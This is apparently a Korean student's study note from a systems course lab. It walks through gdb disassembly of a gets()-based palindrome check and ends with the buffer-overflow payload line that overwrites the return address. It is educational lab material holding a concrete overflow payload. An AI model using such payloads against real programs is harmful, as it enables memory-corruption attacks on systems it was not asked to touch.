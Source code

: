 # 23.05.23.
## Today I Learned
- 컴시개
## 컴시개
### Buffer Overflow
해커 간접체험을 했다. 하나의 과제에 디셈블, 버퍼오버플로우, gdb 디버깅을 녹여낸 최재승교수님 그는 대체...   
***
### Array
```
   0x00000000004006f3 <+0>:	sub    $0x38,%rsp
   0x00000000004006f7 <+4>:	mov    $0x400858,%edi
   0x00000000004006fc <+9>:	callq  0x400510 <puts@plt>
   0x0000000000400701 <+14>:	mov    %rsp,%rdi
   0x0000000000400704 <+17>:	mov    $0x0,%eax
   0x0000000000400709 <+22>:	callq  0x400550 <gets@plt>
   0x000000000040070e <+27>:	mov    $0x0,%eax
   0x0000000000400713 <+32>:	jmp    0x400718 <string_test+37>
   0x0000000000400715 <+34>:	add    $0x1,%eax
   0x0000000000400718 <+37>:	movslq %eax,%rdx
   0x000000000040071b <+40>:	cmpb   $0x0,(%rsp,%rdx,1)
   0x000000000040071f <+44>:	jne    0x400715 <string_test+34>
   0x0000000000400721 <+46>:	cmp    $0x3,%eax
   0x0000000000400724 <+49>:	jg     0x40076a <string_test+119>
   0x0000000000400726 <+51>:	mov    $0x400880,%edi
   0x000000000040072b <+56>:	callq  0x400510 <puts@plt>
   0x0000000000400730 <+61>:	mov    $0x1,%edi
   0x0000000000400735 <+66>:	callq  0x400570 <exit@plt>
   0x000000000040073a <+71>:	movslq %ecx,%rsi
   0x000000000040073d <+74>:	mov    %eax,%edx
   0x000000000040073f <+76>:	sub    %ecx,%edx
   0x0000000000400741 <+78>:	sub    $0x1,%edx
   0x0000000000400744 <+81>:	movslq %edx,%rdx
   0x0000000000400747 <+84>:	movzbl (%rsp,%rdx,1),%edi
   0x000000000040074b <+88>:	cmp    %dil,(%rsp,%rsi,1)
   0x000000000040074f <+92>:	je     0x400765 <string_test+114>
   0x0000000000400751 <+94>:	mov    $0x400892,%edi
   0x0000000000400756 <+99>:	callq  0x400510 <puts@plt>
   0x000000000040075b <+104>:	mov    $0x1,%edi
   0x0000000000400760 <+109>:	callq  0x400570 <exit@plt>
   0x0000000000400765 <+114>:	add    $0x1,%ecx
   0x0000000000400768 <+117>:	jmp    0x40076f <string_test+124>
   0x000000000040076a <+119>:	mov    $0x0,%ecx
   0x000000000040076f <+124>:	cmp    %eax,%ecx
   0x0000000000400771 <+126>:	jl     0x40073a <string_test+71>
   0x0000000000400773 <+128>:	mov    $0x4008a8,%edi
   0x0000000000400778 <+133>:	callq  0x400510 <puts@plt>
   0x000000000040077d <+138>:	add    $0x38,%rsp
   0x0000000000400781 <+142>:	retq  
```  
exit을 만나면 main함수로 돌아가는게 아니라 상황이 강제 종료된다. 올바른 배열을 집어넣으며 bufferoverflowf를 일으켜야 했다.   
3보다 크고, 모든 배열이 같은 배열이 조건이라고 생각했는데 아니였다.   
`0x000000000040074b <+88>:	cmp    %dil,(%rsp,%rsi,1)`를 주목해서 봐야했다.   
%edi는 arr[rdx]의 값을 가지고, (%rsp,%rsi,1)는 arr[MAX_LENGTH-1-rdx]값을 가져 +88에서는 회문인지를 검사하는 비교를 진행한다.   
회문이면서 57,58,59번째자리에 overflow를 발생시키면 main함수로의 return address에 burffer overflow를 발생시킬 수 있으므로   
`prog.send_line("\x40\x06\x86"+"A"*53+"\x86\x06\x40")`가 정답이다.
***
## Array Integer